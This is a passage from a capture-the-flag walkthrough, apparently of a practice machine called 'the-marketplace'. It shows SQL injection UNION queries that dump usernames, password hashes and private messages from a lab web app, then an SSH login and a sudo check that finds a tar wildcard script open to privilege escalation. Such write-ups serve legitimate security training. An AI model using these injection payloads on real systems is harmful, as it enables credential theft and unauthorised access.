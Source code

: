![](17.png)

Now we dump the usernames and passwords with this query.

```text
http://10.10.109.12/admin?user=12 UNION SELECT 5,group_concat(username,password),3,4 from users;
```

![](18.png)

We got hashed password, before we try to crack them, let's take a look at the other tables.


Let's check the messages table with the following query.

```text
http://10.10.109.12/admin?user=12 UNION SELECT 5,group_concat(column_name),3,4 fRoM+information_schema.columns+wHeRe+table_name='messages'
```

![](19.png)

Let's see what's on the `message_content` column.

```text
http://10.10.109.12/admin?user=12 UNION SELECT 5,group_concat(message_content),3,4 from messages;
```

![](20.png)

We got a password for ssh. Let's try logging with one of the two users we found.

![](21.png)

We managed to login as `jake`.

## **Privilege Escalation**

Let's check our privileges with `sudo -l`.

```terminal
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh

```

We can run a shell script called backup as user michael. Let's check the file.

![](22.png)

The script runs `tar` with a wildcard. There is this useful [article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) that describes how to exploit wildcard, let's follow the steps.
